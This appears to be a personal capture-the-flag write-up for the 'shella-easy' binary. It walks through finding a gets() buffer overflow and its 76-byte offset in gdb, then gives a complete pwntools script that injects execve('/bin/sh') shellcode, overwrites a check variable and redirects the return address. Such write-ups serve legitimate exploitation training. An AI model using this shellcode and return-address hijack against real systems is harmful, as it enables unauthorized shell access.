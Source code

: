 ![[shella-easy]]
### Recon
- ![[Pasted image 20240508194928.png]]
- main function looks like 
- ![[Pasted image 20240508195047.png]]
- the hardcoded value shoud be overwritten of ret is no executed cuz the program is exited
### Finding vulnerability
- gets input size is not specified so we can get more than 64 and over write hardcoded
### Finding Offset
- `disass main` using gdb ![[Pasted image 20240508195318.png]]
- set break point before str cmp `break *main+99`
- run
- give input and search for input where it is stored ![[Pasted image 20240508195429.png]]
- find the address of EIP ![[Pasted image 20240508195507.png]]
- offset: 0xffffcefc - 0xffffceb0 = 76
### Payload
- we have the address of input (displayed)
- `<shell code> + <'0' x (76-len(shell code))> + 0xdeadbeef + <input address> `


```
from pwn import *

target = process('./shella-easy')
#gdb.attach(target, gdbscript = 'b *0x804853e')

# Scan in the first line of text, parse out the infoleak
leak = target.recvline()
leak = leak.strip("Yeah I'll have a ")
leak = leak.strip(" with a side of fries thanks\n")
shellcodeAdr = int(leak, 16)

# Make the payload
payload = ""
# This shellcode is from: http://shell-storm.org/shellcode/files/shellcode-827.php`
payload += "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"
payload += "0"*(0x40 - len(payload)) # Padding to the local_c variable
payload += p32(0xdeadbeef) # Overwrite the local_c variable with 0xdeadbeef
payload += "1"*8 # Padding to the return address
payload += p32(shellcodeAdr) # Overwrite the return address to point to the start of our shellcode

# Send the payload
target.sendline(payload)
target.interactive()

```